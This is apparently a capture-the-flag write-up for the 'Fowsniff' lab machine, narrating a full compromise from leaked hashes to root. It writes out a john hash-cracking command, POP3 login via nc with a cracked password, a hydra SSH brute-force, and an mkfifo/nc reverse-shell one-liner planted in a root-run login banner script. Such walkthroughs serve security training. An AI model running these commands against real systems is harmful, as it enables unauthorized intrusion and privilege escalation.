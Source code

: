 # FOWSNIFF CTF

## BASIC INFO
```
export IP=10.10.199.90

open ports:
	22/tcp 		ssh
	80/tcp 		http
	110/tcp		pop3
	143/tcp		imap

```

> - **What was seina's password to the email service?**
>> scoobydoo2


> - **Looking through her emails, what was a temporary password set for her?**
>> S1ck3nBluff+secureshell

This challenge is kinda all over the place. So let's start from begining.

Navigating to the IP privided shows a webpage with name of fowsniff.corp. Search it up on google and we can find a Twitter of the company which is pwned. And a list of usernames and password hash is leaked. Copy it down and crack it with john.`john leaked.hash --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt`. Now we have a list of usernames and passwords.

Next up, login to the pop3 with the following command.
```bash
nc $IP 110
USER seina
PASS scoobydoo2
#Then we need to list all the mails she received.
LIST
RETR 1
```
In this mail we can see that the temporary ssh password is set to 
`S1ck3nBluff+secureshell`

Now exit the pop3 and use hydra to brute-force which user haven't change their password yet.`hydra -L usernames.txt -p S1ck3nBluff+secureshell ssh://$IP`. Looks like baksteen haven't change yet. Log in to ssh with that credentials.

Once we logged in, use `find / -group users 2>/dev/null` to locate file which we can edit as users group. Found a file in /opt/cube. Remember the banner we saw when log in through ssh? This looks like it and it is run as root. So we insert a reverse shell into it.
```bash
nano cube.sh
#Copy the command below and paste it in the file.
#Remember to moify the host IP and port
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our IP> <PORT> >/tmp/f
```

After we set up a listener on our machine, exit and log back in to baksteen's account through ssh. Now we are root.